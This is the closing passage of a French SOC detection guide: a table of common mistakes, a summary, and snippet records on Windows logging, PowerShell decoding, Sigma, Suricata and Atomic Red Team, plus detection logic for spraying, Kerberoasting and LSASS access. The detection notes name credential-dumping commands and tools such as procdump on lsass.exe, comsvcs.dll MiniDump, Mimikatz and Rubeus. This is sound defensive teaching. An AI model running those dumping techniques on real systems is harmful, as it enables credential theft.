| Clôture d'une alerte EDR « blocked » sans chercher le vecteur | L'accès initial reste en place, une autre étape passera | Remonter à l'origine (mail, téléchargement, session distante) |
| Tout ingérer sans tri | Budget SIEM épuisé, rétention coupée au pire moment | Filtrer à la source (5156, 4663), stockage en deux niveaux |
| Lignes de commande contenant des mots de passe (`net use /user:... <MOT_DE_PASSE>`) stockées en clair dans le SIEM | Le SIEM devient une réserve de secrets | Masquage à l'ingestion, accès restreint aux index sensibles, rotation des secrets exposés |
| Administration du SIEM avec les comptes AD d'entreprise | Un attaquant qui compromet l'AD efface l'historique | Comptes distincts, MFA, archive immuable, alerte sur suppression d'index |
| Matrice ATT&CK « verte » présentée comme couverture | Fausse confiance, techniques contournées par variantes | Rejeu de procédures, mesure par technique et source de données |

## Résumé

Un SOC transforme des journaux en décisions : collecte fiable, règles testées, triage discipliné, amélioration continue. La menace couverte est celle qui passe entre les mailles : outils légitimes détournés, comptes valides, journaux effacés, exclusions trop larges. Le mécanisme de défense repose sur une collecte qui n'est pas effaçable localement, des règles de comportement validées par rétro-test et rejeu, et une exigence de corroboration avant toute conclusion. Ce qui reste à surveiller : le silence des sources, le retard d'ingestion, la précision de chaque règle et la durée de vie des exclusions. Une alerte reste une hypothèse tant qu'une seconde source indépendante ne l'a pas confirmée.

<!-- snippet
id: soc_windows_enable_cmdline_4688
type: command
tech: soc
level: intermediate
importance: high
format: knowledge
tags: windows,logs,4688,siem
title: Activer la ligne de commande dans l'événement 4688
context: À exécuter en administrateur ; en production, déployer par GPO. Suppose la sous-catégorie Process Creation déjà activée (auditpol), sans quoi aucun 4688 n'est produit
command: reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Audit" /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1 /f
description: Sans cette clé, 4688 n'enregistre que le nom du binaire : impossible de distinguer powershell.exe -enc d'un lancement normal.
-->

<!-- snippet
id: soc_windows_security_log_size
type: command
tech: soc
level: intermediate
importance: medium
format: knowledge
tags: windows,logs,retention,wevtutil
title: Augmenter la taille du journal Security Windows
context: Le défaut est de 20 Mo, ce qui représente quelques heures sur un contrôleur de domaine actif
command: wevtutil sl Security /ms:<TAILLE_OCTETS>
example: wevtutil sl Security /ms:1073741824
description: Passe le journal à 1 Go pour garder une fenêtre locale d'investigation quand l'envoi vers le SIEM a du retard ou est interrompu.
-->

<!-- snippet
id: soc_decode_encodedcommand
type: command
tech: soc
level: intermediate
importance: medium
format: knowledge
tags: powershell,triage,base64,analyse
title: Décoder un PowerShell -EncodedCommand
context: Le base64 d'un -enc PowerShell est du texte UTF-16LE ; un simple base64 -d donne des caractères illisibles
command: echo '<BASE64>' | base64 -d | iconv -f UTF-16LE -t UTF-8
example: echo 'dwBoAG8AYQBtAGkA' | base64 -d | iconv -f UTF-16LE -t UTF-8
description: Affiche le script réel derrière -enc (ici whoami). Premier réflexe de triage avant de juger la gravité d'une alerte PowerShell.
-->

<!-- snippet
id: soc_suricata_pcap_test
type: command
tech: soc
level: advanced
importance: medium
format: knowledge
tags: suricata,ids,pcap,detection
title: Rejouer un pcap dans Suricata pour tester une règle
context: Le -k none évite que des checksums invalides (offloading de la carte réseau) fassent ignorer les paquets
command: suricata -r <PCAP_FILE> -l <OUT_DIR> -k none
example: suricata -r /tmp/log4shell.pcap -l /tmp/suri_out -k none
description: Les alertes sont écrites dans eve.json. Filtrer avec jq 'select(.event_type=="alert")' pour vérifier qu'une règle réagit sur du trafic connu.
-->

<!-- snippet
id: soc_sigma_convert_rule
type: command
tech: soc
level: advanced
importance: medium
format: knowledge
tags: sigma,siem,detection-as-code,splunk
title: Convertir une règle Sigma vers le langage du SIEM
context: Les noms de backend et de pipeline dépendent des versions de pySigma et du SIEM visé
command: sigma convert -t <BACKEND> -p <PIPELINE> <RULE_FILE>
example: sigma convert -t splunk -p splunk_windows rules/vssadmin_delete_shadows.yml
description: Produit la requête native à tester en rétro-test. La même règle Sigma peut alimenter Splunk, Sentinel ou Elastic sans réécriture.
-->

<!-- snippet
id: soc_atomic_red_team_replay
type: command
tech: soc
level: advanced
importance: medium
format: knowledge
tags: atomic-red-team,mitre-attack,test,detection
title: Rejouer une technique ATT&CK avec Atomic Red Team
context: À exécuter sur une machine de laboratoire ou explicitement autorisée ; certains tests sont destructeurs
command: Invoke-AtomicTest <TECHNIQUE> -TestNumbers <NUM>
example: Invoke-AtomicTest T1053.005 -TestNumbers 1
description: Génère l'activité réelle d'une technique pour vérifier que la règle se déclenche. Lire d'abord avec -ShowDetails et nettoyer avec -Cleanup.
-->

<!-- snippet
id: soc_alert_not_proof
type: concept
tech: soc
level: intermediate
importance: high
format: knowledge
tags: triage,alerte,corroboration,qualification
title: Une alerte est une hypothèse, pas une preuve
content: Une règle émet un signal à partir d'un motif (chaîne JNDI dans une URI, lecture mémoire de LSASS). Ce signal prouve que le motif a été observé, pas qu'il a réussi. La conclusion exige une seconde source indépendante ou un artefact vérifiable, par exemple une connexion sortante LDAP du serveur après un JNDI, ou un fichier de dump après un accès à LSASS. Sans cela, écrire « activité suspecte non confirmée » dans le ticket.
description: Le triage cherche une seconde source qui confirme ou contredit l'alerte avant de parler de compromission, dans un sens comme dans l'autre.
-->

<!-- snippet
id: soc_password_spraying_detection
type: concept
tech: soc
level: advanced
importance: high
format: knowledge
tags: password-spraying,detection,4625,kerberos
title: Détecter le password spraying par comptes distincts
content: Le spray essaie un mot de passe sur des centaines de comptes, sous le seuil de verrouillage : chaque compte ne reçoit qu'un échec et la règle « plus de 5 échecs par compte » ne sonne jamais. Compter les comptes distincts par source dans une fenêtre de 10 minutes (au moins 10 comptes, moins de 5 échecs par compte en moyenne). Kerbrute passe par Kerberos et produit des 4768 (0x6) et 4771 (0x18) sur le contrôleur de domaine, pas des 4625.
description: Compter les comptes distincts par source plutôt que les échecs par compte, et couvrir 4768/4771 pour les sprays Kerberos.
-->

<!-- snippet
id: soc_kerberoasting_4769_rc4
type: concept
tech: soc
level: advanced
importance: high
format: knowledge
tags: kerberoasting,kerberos,4769,active-directory
title: Kerberoasting : détecter les tickets RC4 en rafale
content: Tout utilisateur du domaine peut demander un ticket de service (4769) pour un compte avec SPN, chiffré avec le hash du mot de passe du compte. L'attaquant le casse hors ligne (Rubeus kerberoast, GetUserSPNs.py). Signal : un même compte qui demande plusieurs services en quelques minutes, TicketEncryptionType 0x17 (RC4), service ne finissant pas par $ et différent de krbtgt. Un compte leurre avec SPN, jamais utilisé, donne une alerte quasi sans faux positif.
description: Chercher des 4769 en RC4 pour plusieurs services depuis un même compte ; un SPN leurre que personne ne demande légitimement est le signal le plus fiable.
-->

<!-- snippet
id: soc_lsass_access_sysmon10
type: concept
tech: soc
level: advanced
importance: high
format: knowledge
tags: lsass,sysmon,credential-dumping,t1003
title: Accès à LSASS : lire Sysmon 10 avec GrantedAccess
content: Pour extraire des identifiants, l'attaquant ouvre lsass.exe via Mimikatz, procdump -ma lsass.exe ou rundll32 comsvcs.dll, MiniDump. Sysmon 10 enregistre l'accès avec GrantedAccess : 0x1010 et 0x1FFFFF sont typiques. Antivirus, EDR et agents de sauvegarde ouvrent aussi LSASS, donc la règle exige une liste d'autorisation par SourceImage signé et par chemin, et alerte sur tout le reste.
description: Alerter sur GrantedAccess 0x1010 ou 0x1FFFFF vers lsass.exe, hors liste d'autorisation par binaire signé et chemin, pour limiter le bruit.
-->

<!-- snippet
id: soc_tuning_exclusion_scope
type: warning
tech: soc
level: intermediate
importance: high
format: knowledge
tags: tuning,faux-positif,exclusion,detection
title: Exclusion trop large : l'angle mort que l'attaquant utilise
content: Exclure toute ligne de commande contenant -enc, un hôte entier ou un utilisateur entier supprime le bruit mais aussi la détection : une macro Office qui lance powershell -enc sur ce parc ne sonnera plus. Correction : exclure sur parent + compte + empreinte de la commande de référence, avec ticket, date de revue et alerte sur toute modification d'exclusion.
description: Une exclusion doit combiner au moins trois conditions et avoir une date de revue, sinon elle devient un contournement de la règle.
-->

<!-- snippet
id: soc_auditd_auid_filter_trap
type: warning
tech: soc
level: advanced
importance: medium
format: knowledge
tags: auditd,linux,execve,webshell
title: auditd : le filtre auid!=4294967295 cache les services
content: Filtrer les règles execve avec -F auid>=1000 -F auid!=4294967295 réduit le volume, mais les processus de service ont un auid non défini (4294967295), que le second filtre exclut. Le www-data qui lance /bin/sh après une exploitation web disparaît des journaux. Correction : garder execve sans filtre auid et exclure le bruit par processus parent ou chemin d'exécutable.
description: Les services (www-data, postgres) ont un auid non défini (4294967295) : le filtre auid!=4294967295, souvent associé à auid>=1000, supprime les exécutions post-exploitation les plus intéressantes.
-->

<!-- snippet
id: soc_edr_blocked_not_benign
type: warning
tech: soc
level: intermediate
importance: medium
format: knowledge
tags: edr,triage,blocked,vecteur
title: Alerte EDR « blocked » clôturée sans chercher le vecteur
content: Un statut blocked signifie qu'une étape a été arrêtée, pas que l'attaque n'a pas eu lieu. Clore sans remonter à l'origine (pièce jointe, téléchargement, session distante) laisse l'accès initial en place. Correction : chercher le parent du processus bloqué, les connexions entrantes et sortantes de l'hôte dans l'heure précédente, et d'autres hôtes ayant reçu le même fichier.
description: Après une alerte bloquée, remonter au vecteur d'entrée et vérifier la présence du même fichier ailleurs avant de clore le ticket.
-->

<!-- snippet
id: soc_log_silence_detection
type: tip
tech: soc
level: intermediate
importance: high
format: knowledge
tags: siem,heartbeat,logs,tampering
title: Alerter sur le silence d'une source de journaux
content: Planifier toutes les 15 minutes la requête SPL : | tstats latest(_time) AS last WHERE index=wineventlog BY host | where last < relative_time(now(),"-30m"). Avec le journal 1102 (journal Security effacé), elle couvre l'attaquant qui efface ou arrête l'agent de collecte. Prévoir une liste d'exceptions pour les postes éteints ou en congé.
description: Un hôte qui n'envoie plus rien depuis 30 minutes est un signal en soi ; la requête tstats ci-dessus le détecte à faible coût.
-->

<!-- snippet
id: soc_siem_index_lag
type: tip
tech: soc
level: advanced
importance: medium
format: knowledge
tags: siem,ingestion,latence,correlation
title: Mesurer le retard d'ingestion avant d'écrire une règle
content: Dans Splunk, lancer ... | eval lag=_indextime-_time | stats avg(lag) perc95(lag) by sourcetype. Si le 95e percentile dépasse la fenêtre de corrélation (10 minutes pour une règle de spray), la règle manquera des événements. Corriger l'agent ou allonger la fenêtre.
description: Comparer temps d'événement et temps d'indexation par sourcetype pour s'assurer que les fenêtres de corrélation couvrent le vrai retard.
-->
